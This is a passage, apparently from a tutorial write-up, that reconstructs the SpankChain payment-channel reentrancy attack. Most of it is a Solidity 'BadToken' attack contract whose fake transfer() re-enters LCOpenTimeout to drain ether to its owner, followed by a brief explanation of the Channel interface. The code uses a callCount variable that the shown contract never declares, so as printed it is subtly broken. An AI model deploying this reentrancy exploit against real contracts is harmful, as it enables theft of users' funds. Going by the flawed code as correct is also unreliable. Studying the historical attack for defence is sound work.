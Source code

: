         function LCOpenTimeout(bytes32 _lcID) public;
    }


    contract BadToken {
        address owner;
        address target; // spankchain contract address we want to exploit

        // just a random 32 bytes used for the channelID
        bytes32 data = bytes32(0x390469ecab3c63eb15dfc6470ef63d139d417ab93f3fbc659e992c70913f1f);

        constructor(address _target) public {
            owner = msg.sender;
            target = _target;
        }

        function() public payable {
            // Need this to accept ether transfer
        }

        function withdraw() public {
            require(msg.sender == owner);
            owner.transfer(address(this).balance);
        }

        function getBalace() public view returns(uint256) {
            return address(this).balance;
        }

        function openChannel() public payable {
            Channel(target).createChannel.value(msg.value)(data, address(this), 0, address(this), [uint256(msg.value), uint256(100)]);
        }

        function attack() public {
            Channel(target).LCOpenTimeout(data);
        }

        function transfer(address _receiver, uint256 _amount) public returns(bool) {
            if (callCount < 5) {
                callCount += 1;
                Channel(target).LCOpenTimeout(data);
            }
            return true;
        }

        function transferFrom(address _from, address _to, uint256 _amount) public returns(bool) {
            return true;
        }
    }

### Channel Interface
The **Channel** contract is just an interface we need to create by copying and pasting the function signatures from the _createChannel_ and _LCOpenTimeout_ functions in the SpankChain payment channel contract. We need this in order to call these functions from inside our **BadToken** contract. Notice that we don’t need to have the implementation of these function but just the signature.
